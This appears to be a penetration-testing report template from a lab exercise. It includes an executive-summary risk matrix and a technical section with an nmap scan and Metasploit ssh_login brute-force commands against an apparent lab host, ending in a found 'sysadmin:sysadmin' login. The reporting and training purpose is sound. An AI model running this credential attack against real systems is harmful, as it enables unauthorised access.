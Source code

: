 ### **Professional Report Template Structure**

#### **🎯 Executive Summary Template**
```markdown
## Metasploit Framework Penetration Testing Results

### Assessment Overview
**Date:** [ISO 8601 format: 2024-07-09T14:37:25+05:30]  
**Duration:** [Total testing time]
**Scope:** [Target systems and networks]  
**Methodology:** OWASP Testing Guide + NIST SP 800-115

### Critical Findings Summary
**High Severity:** [Number] findings requiring immediate attention
**Medium Severity:** [Number] findings requiring scheduled remediation  
**Low Severity:** [Number] findings for security improvement
**Informational:** [Number] observations and recommendations

### Risk Assessment Matrix
| Finding | CVSS Score | Business Impact | Remediation Priority |
|---------|------------|-----------------|---------------------|
| SSH Credential Weakness | 8.1 (High) | Authentication Bypass | Critical (24-48 hours) |
| Service Version Disclosure | 5.3 (Medium) | Information Leakage | High (1-2 weeks) |
```

#### **🔧 Technical Details Documentation**
```markdown
### Technical Exploitation Details

#### Target System Information
- **IP Address:** 192.195.154.3
- **Hostname:** demo.ine.local  
- **Operating System:** Ubuntu Linux 6.8.0-36-generic x86_64
- **Architecture:** x86_64 GNU/Linux

#### Vulnerability Exploitation Chain

##### Step 1: Service Discovery
```bash
[14:37:25] nmap -sS -sV demo.ine.local
# Results: SSH service (OpenSSH 7.9p1) identified on port 22
```

##### Step 2: Credential Attack
```bash  
[14:38:15] use auxiliary/scanner/ssh/ssh_login
[14:38:20] set RHOSTS demo.ine.local
[14:38:22] set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt
[14:38:25] set PASS_FILE /usr/share/metasploit-framework/data/wordlists/common_passwords.txt
[14:38:28] exploit
[14:41:21] [+] Success: 'sysadmin:sysadmin'
```
